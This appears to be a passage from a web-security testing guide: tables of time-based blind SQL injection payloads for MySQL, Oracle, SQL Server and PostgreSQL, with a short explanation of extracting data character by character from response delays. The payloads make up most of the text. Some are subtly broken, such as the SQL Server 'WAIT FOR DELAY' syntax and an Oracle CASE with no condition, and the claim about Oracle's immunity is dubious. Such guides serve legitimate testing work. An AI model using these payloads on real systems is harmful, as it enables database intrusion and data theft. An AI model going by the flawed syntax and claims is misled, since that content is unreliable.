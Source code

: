 |       **DBMS**       |                      **Payload**                      | **Expected output** |
|:--------------------:|:-----------------------------------------------------:|:-------------------:|
|         MySQL        |                      1-SLEEP(10);                     |   Delayed response  |
|        Oracle        | AND 1=DBMS_PIPE.RECEIVE_MESSAGE(\'a\', 10) FROM dual; |   Delayed response  |
| Microsoft SQL Server |            1; WAIT FOR DELAY \'00:00:10\';            |   Delayed response  |
|      PostgreSQL      |                    ; pg_sleep(10);                    |   Delayed response  |

Oracle is not really vulnerable to this kind of vulnerability. If it is, the only possible option is to use the **PL/SQL SLEEP** function, but it is rarely enabled.

If a delayed response is observed, time delays can also be used to infer information based on **boolean conditions**. Usually, to extract **string-type data** it is necessary to check each character incrementally.

|       **DBMS**       |                                                     **Payload**                                                     |    **Expected output**     |
|:--------------------:|:-------------------------------------------------------------------------------------------------------------------:|:--------------------------:|
|         MySQL        |                                   1-IF(MID(version(), 1, 1) = '5', SLEEP(5), 0);                                    |   Delayed response if true |
|        Oracle        | AND \'a\' = (SELECT CASE WHEN SUBSTR(user, 1, 1) THEN DBMS_PIPE.RECEIVE_MESSAGE(\'a\', 5) ELSE NULL END FROM dual); |   Delayed response if true |
| Microsoft SQL Server |                         IF (SUBSTRING(DB_NAME(), 1, 1) = \'a\') WAIT FOR DELAY \'00:00:05\';                        |   Delayed response if true |
|      PostgreSQL      |             ; SELECT CASE WHEN (SUBSTRING(version(), 1, 1) = '1') THEN pg_sleep(5) ELSE pg_sleep(0) END;            |   Delayed response if true |

